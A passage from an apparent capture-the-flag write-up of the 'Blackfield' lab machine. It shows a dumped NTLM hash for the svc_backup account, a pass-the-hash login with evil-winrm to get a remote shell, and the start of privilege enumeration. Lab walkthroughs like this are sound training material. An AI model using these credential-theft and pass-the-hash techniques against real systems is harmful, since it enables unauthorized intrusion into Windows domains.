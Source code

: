 ```bash
        msv :
         [00000003] Primary
         * Username : svc_backup
         * Domain   : BLACKFIELD
         * NTLM     : 9658d1d1dcd9250115e2205d9f48400d
         * SHA1     : 463c13a9a31fc3252c68ba0a44f0221626a33e5c
         * DPAPI    : a03cd8e9d30171f3cfe8caad92fef621
        tspkg :
        wdigest :
         * Username : svc_backup
         * Domain   : BLACKFIELD
         * Password : (null)
        kerberos :
         * Username : svc_backup
         * Domain   : BLACKFIELD.LOCAL
         * Password : (null)
        ssp :
        credman :

[...]
```

We now have the NTLM hash of the user `svc_backup`, which allows us to login using PTH.

### Getting a shell as user using Pass-The-Hash

We can use evil-winrm to get a shell by supply the NTLM hash of the user.

```powershell
root@darkness:~# evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents> 
```

We get a shell as svc_backup and can now read user.txt.

```powershell
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> type user.txt
dec92***************************
```

### Privesc

Now that we have a shell as `svc_backup`, let us enumerate the system to find a way to get to root.

#### Enumeration as svc_backup

Let us check out the privileges of the user first.

```powershell
*Evil-WinRM* PS C:\Users\svc_backup> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```